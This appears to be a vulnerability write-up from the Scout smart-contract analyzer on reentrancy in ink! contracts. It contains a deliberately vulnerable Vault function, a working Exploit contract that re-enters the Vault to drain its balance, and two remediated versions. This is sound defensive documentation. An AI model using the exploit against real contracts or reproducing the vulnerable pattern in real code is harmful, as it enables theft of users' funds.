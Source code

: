 # Reentrancy
## Description
* Vulnerability Category: `Reentrancy`
* Severity: `Critical`
* Detectors: [`reentrancy-1`](https://github.com/CoinFabrik/scout/tree/main/detectors/reentrancy-1), [`reentrancy-2`](https://github.com/CoinFabrik/scout/tree/main/detectors/reentrancy-2)
* Test Cases: [`reentrancy-1`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1-1), [`reentrancy-2`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1-2), [`reentrancy-3`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-2/reentrancy-2-1)

Smart contracts can call other contracts and send tokens to them. These
operations imply external calls where control flow is passed to the called
contract until the execution of the called code is over. Then the control
is delivered back to the caller.

External calls, therefore, could open the opportunity for a malicious contract
to execute any arbitrary code. This includes calling back the caller contract,
an attack known as reentrancy. This kind of attack was used in Ethereum for
the infamous [DAO Hack](https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/).

## Exploit Scenario
In order to exemplify this vulnerability we developed two contracts:
a `Vault` contract and an `Exploit` contract.

The `Vault` contract provides functions to deposit, withdraw, check balance,
and call a function on another contract with a specified value.

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

Th function `call_with_value function()` allows the contract owner to call
other contracts on the blockchain and transfer a specified amount of value in
the process. The function takes three arguments:
- *address*: The address of the contract to call.
- *amount*: The amount of balance to transfer in the call.
- *selector*: The 32-bit function selector of the function to call on the contract.

The function first checks the balance of the caller to make sure that they have
enough funds to perform the transfer. If the balance is sufficient, a new call
is constructed using the `build_call()` function provided by the
`env::call module`.

The `build_call()` function constructs a new contract call with the specified
arguments. In this case, the call method is used to specify the address of the
contract to call, the transferred_value method is used to specify the amount
of balance to transfer, and the exec_input method is used to specify the
function selector and any arguments to pass to the called function.

The `call_flags()` method is also used to set a flag that allows the called
contract to re-enter the current contract if necessary. This possibility to
re-enter the contract, together with an appropriate 32-bit function selector
will allow us to repeatedly withdraw balance from the contract, emptying the
Vault.

In order to perform this attack, we will use the `exploit()` function of the
`Exploit` contract that we outline below:

```rust
#[ink(message, payable, selector = 0x0)]
pub fn exploit(&mut self) {
    ink::env::debug_println!("Exploit  function called from {:?} gas left {:?}",self.env().caller(), self.env().gas_left());
    if self.env().gas_left() > self.gas_to_stop{
        let call = build_call::<ink::env::DefaultEnvironment>()
        .call(self.contract)
        .transferred_value(0)
        .exec_input(
            ink::env::call::ExecutionInput::new(Selector::new([0x76_u8,0x75_u8,0x7E_u8,0xD3_u8]))
                .push_arg(self.env().account_id())
                .push_arg(self.amount)
                .push_arg(0)
        )
        .call_flags(
            ink::env::CallFlags::default()
                .set_allow_reentry(true)
        )
        .returns::<Balance>()
        .params();
        ink::env::debug_println!("Call generated gas left:{:?}",self.env().gas_left());
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        ink::env::debug_println!("Call finished");
    }
}

```

The vulnerable code example can be found [here](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1-1/vulnerable-example).

### Deployment
Exploit and Vault files can be found under the directories
[vulnerable-example/exploit](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1-1/vulnerable-example/exploit) and
[vulnerable-example/src](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1-1/vulnerable-example/src).
The whole exploit example can be run automatically using the `deploy.sh` file.

## Recommendation
In general, risks associated to reentrancy can be addressed with the
Check-Effect-Interaction pattern, a best practice that indicates that external
calls should be the last thing to be executed in a function. In this example,
this can be done by inserting the balance before transferring the value (see
[remediated-example-1](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1-1/remediated-example)).


```rust
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        self.balances.insert(caller_addr, &(caller_balance - amount));
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

The remediated code example can be found [here](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1-1/remediated-example).

Alternatively, if reentrancy by an external contract is not needed, the
`set_allow_reentry(true)` should be removed altogether (see
[remediated-example-2](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1-2/remediated-example)). This is equivalent in Substrate to using a
[reentrancy guard](https://github.com/Supercolony-net/openbrush-contracts/tree/main/contracts/src/security/reentrancy_guard)
like the one offered by [OpenBrush](https://github.com/Supercolony-net/openbrush-contracts).

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

The remediated code example can be found [here](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1-2/remediated-example).

## References
* https://use.ink/datastructures/storage-layout
* https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/
* https://dasp.co/#item-1
* https://blog.sigmaprime.io/solidity-security.html#SP-1
* https://docs.soliditylang.org/en/develop/security-considerations.html#re-entrancy
* [Ethernaut: Reentrancy](https://stermi.medium.com/the-ethernaut-challenge-9-solution-re-entrancy-635303881a4f)
* [SWC-107](https://swcregistry.io/docs/SWC-107)
* [Slither: Reentrancy vulnerabilities (theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities)
* [Slither: Reentrancy vulnerabilities (no theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-1)
* [Slither: Benign reentrancy vulnerabilities](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-2)
* [Slither: Reentrancy vulnerabilities leading to out-of-order Events](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-3)
* [Slither: Reentrancy vulnerabilities through send and transfer](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-4)

